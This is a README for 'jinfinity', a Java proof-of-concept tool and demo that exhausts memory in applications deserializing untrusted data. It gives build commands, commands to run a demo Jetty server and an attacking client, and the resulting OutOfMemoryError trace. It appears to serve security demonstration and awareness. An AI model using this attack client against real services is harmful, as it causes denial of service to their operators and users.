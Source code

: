 jinfinity
========

An API and demonstration program for consuming all the memory of applications that deserialize data from untrusted sources (like HTTP requests.)

## How do I use this?

Use the com.contrastsecurity.jinfinity.JInfinity.java#sendAttack() API to push an unreasonable large serialized String to a target OutputStream.

## How can I run the demo program?

First, build the app:

```
git clone https://github.com/Contrast-Security-OSS/jinfinity.git
cd jinfinity
mvn clean package
```

To run the demo Jetty server, run this:
```
java -jar target/jinfinity-jar-with-dependencies.jar server
```

In another console, run the attacking client:
```
java -jar target/jinfinity-jar-with-dependencies.jar client
```

Within 30 seconds, the server will produce an OutOfMemoryError that looks something like this:

```
java.lang.OutOfMemoryError: Java heap space
	at java.lang.AbstractStringBuilder.expandCapacity(AbstractStringBuilder.java:99)
	at java.lang.AbstractStringBuilder.append(AbstractStringBuilder.java:518)
	at java.lang.StringBuffer.append(StringBuffer.java:307)
	at java.io.ObjectInputStream$BlockDataInputStream.readUTFSpan(ObjectInputStream.java:3044)
	at java.io.ObjectInputStream$BlockDataInputStream.readUTFBody(ObjectInputStream.java:2952)
	at java.io.ObjectInputStream$BlockDataInputStream.readLongUTF(ObjectInputStream.java:2935)
	at java.io.ObjectInputStream.readString(ObjectInputStream.java:1570)
```